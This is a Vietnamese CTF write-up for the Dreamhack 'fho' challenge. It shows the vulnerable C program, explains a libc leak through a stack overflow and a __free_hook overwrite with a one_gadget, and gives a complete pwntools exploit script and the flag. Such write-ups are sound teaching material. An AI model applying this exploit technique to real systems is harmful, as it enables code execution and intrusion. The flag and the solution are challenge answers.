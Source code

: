 # fho

1 chall tương tự như bài Hook

**source C:**

```c 
// Name: fho.c
// Compile: gcc -o fho fho.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}

```

**checks:**


![image](https://github.com/gookoosss/CTF/assets/128712571/11f4ab99-d11a-48b8-8eb9-b98420d5f560)



**tại lần nhập 1 có lỗi BOF nên ta có thể lợi dụng để leak libc** vì trong bài này không có hàm tạo shell cho mình

```python
payload = b'a'*72
p.sendafter(b'Buf: ', payload)
p.recvuntil(payload)

libc_leak = u64(p.recvuntil(b'\n',drop=True) + b'\0\0')
libc.address = libc_leak - 0x21bf7

log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))

```

oke sau khi có được libc rồi thì ta sẽ khai thác lần nhập 2 và 3

**lần nhập 2 thì ta phải nhập vào 1 địa chỉ cho con trỏ, lần nhập 3 sẽ là gán giá trị cho con trỏ đó**

hmm tới đây mình nảy ra ý tưởng là **trong main ta có sẵn hàm free rồi, nếu vậy ta sẽ kết hợp dùng __free_hook và one_gadget để có thể lấy shell ngay trong hàm free**

oke giờ ta chạy thử xem sao

![image](https://github.com/gookoosss/CTF/assets/128712571/39e36c52-aff9-4760-a192-8b0f88ddee77)


đúng như ta dự đoán thì lúc này **rax đang chứa __free_hook và đang trỏ đến địa chỉ của one_gadget** 

giờ ta chạy đến lần nhập 4 xem sao 

lần nhập 4 yêu cầu là 1 địa chỉ nên ta thử nhập địa chỉ libc thử xem chương trình chạy như thế nào

![image](https://github.com/gookoosss/CTF/assets/128712571/f13d4f29-b71a-4974-999c-3126e782363d)


à mình hiểu rồi, **như trên ảnh thì libc mình nhập đại vào lần nhập 4 sẽ được vào gán rdi**, vậy cái này sẽ có tác dụng khi **ta sử dụng libc.sym['system'] ở lần nhập 3, và lần nhập 4 ta sẽ nhập next(libc.search(b'/bin/sh'))** để gán /bin/sh vào rdi là có thể lấy shell rồi

**ở đây mình dùng one_gadget nên lần nhập 4 ko quan trọng nên mình nhập đại** 


## script:


```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fho_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
p = process([exe.path])
# p = remote("host3.dreamhack.games", 10433)
        
gdb.attach(p, gdbscript = '''
b*main+129
b*main+206
c           
''')

input()

payload = b'a'*72
p.sendafter(b'Buf: ', payload)
p.recvuntil(payload)

libc_leak = u64(p.recvuntil(b'\n',drop=True) + b'\0\0')
libc.address = libc_leak - 0x21bf7

log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))

one_gadget = libc.address + 0x4f432

p.sendlineafter(b'To write: ', str(libc.sym['__free_hook']))
p.sendlineafter(b'With: ', str(one_gadget))
p.sendlineafter(b'To free: ', str(libc.sym['__free_hook']))

p.interactive()

# DH{a8529ace5e50480658a645aa1a1c88291784335c1c54c5b89d0f43ad1893730c}

```

## Flag:

**DH{a8529ace5e50480658a645aa1a1c88291784335c1c54c5b89d0f43ad1893730c}**







